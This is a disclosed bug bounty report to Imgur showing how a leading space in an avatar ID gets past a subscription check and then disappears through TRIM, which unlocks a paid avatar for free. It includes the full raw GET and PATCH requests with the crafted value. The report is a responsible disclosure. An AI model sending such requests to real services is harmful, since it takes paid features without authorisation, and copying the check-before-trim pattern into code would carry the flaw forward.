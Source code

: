 # Bypass subscription

## Report Details
- **Report ID**: 1029027
- **URL**: https://hackerone.com/reports/1029027
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-11-07T14:41:11.355Z
- **Disclosed**: 2020-12-13T17:28:19.982Z

## Reporter
- **Username**: 1a2er3d
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: imgur

## Vulnerability Information
Hello team! You can bypass avatar subscriptions.
Thus, without connecting a subscription - it's free.

A list of all avatars is available at the address below, with a GET request:

```
:method: GET
:authority: api.imgur.com
:scheme: https
:path: /account/v1/accounts/me/avatars?client_id=YOU CLIENT ID
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
dnt: 1
accept: */*
origin: https://imgur.com
sec-fetch-site: same-site
sec-fetch-mode: cors
sec-fetch-dest: empty
referer: https://imgur.com/
accept-encoding: gzip, deflate, br
accept-language: ru,en-US;q=0.9,en;q=0.8,uk;q=0.7
YOU COOKIE

```

But the subscription on the site is paid and without this trick it cannot be bypassed.
We use " " - space in front of the icon name and get paid icon for free.

Below is the request to send

 ```
:method: PATCH
:authority: api.imgur.com
:scheme: https
:path: /account/v1/accounts/me?client_id=YOU CLIENT ID
accept: application/vnd.imgur.v1+json
dnt: 1
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
content-type: application/vnd.imgur.v1+json
origin: https://imgur.com
sec-fetch-site: same-site
sec-fetch-mode: cors
sec-fetch-dest: empty
referer: https://imgur.com/
accept-encoding: gzip, deflate, br
accept-language: ru,en-US;q=0.9,en;q=0.8,uk;q=0.7
YOU COOKIE

Content-Length: 73

{
	"avatar_id": " subscription/spooktober-pumpkin", 
	"id": YOU ID
}
 ```
__Small recommendation __

The point is that you use "TRIM" after checking by name. It turns out TRIM strips the space and it bypasses the check.

**I think this information will be useful to you.**

## Impact

We connect a paid avatar - for free.
Thus, we bypass the subscription.

## Attachments
No attachments

